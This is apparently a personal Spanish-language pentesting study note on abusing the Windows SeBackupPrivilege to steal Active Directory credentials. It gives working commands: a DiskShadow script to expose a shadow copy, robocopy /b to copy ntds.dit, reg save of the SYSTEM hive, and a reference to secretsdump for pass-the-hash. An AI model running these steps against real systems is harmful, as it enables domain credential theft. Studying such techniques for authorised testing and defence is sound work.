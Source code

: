 -----
- Tags: #teoria #practica #windows 
- -----
# SeBackupPrivilege 

### El privilegio **SeBackupPrivilege** es uno de los muchos privilegios de seguridad que se puieden asignar a losu suarios o grupos en el sitema opertivo Windows. Este privilegio otorga a un usuario o servcio la capacidad de realizar copias de seguridad de archvios y directorios, **incluso si el usuario o servicio no tiene acceso explícito a esos recursos.**

-----
# Abuso 

### Como sabemos, el privilegio **SeBackupPrivilege** nos permite realizar copias de seguridad de archivos a los cuales no tenemos acceso, lo cual puede ser interesante de cara a archivos que puedan existir y puedan ser privilegiados, pero incluso en un entorno de [[Active Directory]] esto puede ser aun más interesante ya que podríamos pensar en realizar un [[Pass The Hash]] volcando los hashes NT almacenados en la ruta **C:\Windows\NTDS\ntds.dit**. 

### Existen múltiples maneras de abusar de este privilegio las cuales pueden ser vistas en la página web de [pentestlab](https://pentestlab.blog/tag/diskshadow/), pero en este caso haremos uso de **DiskShadow**.
#### Máquina víctima
```shell
# Creamos un archivo con el siguiente contenido: 
set context persistent nowriters 
add volume c: alias {name_to_alias} 
create 
expose %{name_to_alias}% z: 
# IMPORTANTE: AGREGAR UN ESPACIO AL FINAL DE CADA LÍNEA
```
### Una vez subido a la máquina victima o creado el archivo con el contenido indicado, podríamos abuscar del **diskshadow.exe** para crear una unidad (En este caso la **z**) con el contenido indicado. 

```shell
diskshadow.exe /s C:\{path}\{to}\{file}\{uploaded}
```
### De esta manera, se crea la **shadow copy** y se expone en la unidad **z**.

```shell
copy z:\Windows\NTDS\ntds.dit ntds.dit
# Intentamos crear la copia 
robocopy /b z:\Windows\NTDS\ . ntds.dit
# Si contamos con el privilegio SeBackupPrivilege es mejor hacer uso de robocopy
```
### Una vez lograda la copia de seguridad, si la descargamos así como el archivo **system** también (`reg save HKLM\system system`) podríamos dumpear los hashes NT del Active Directory con **impacket-secretsdump** para realizar un [[Pass The Hash]]. 

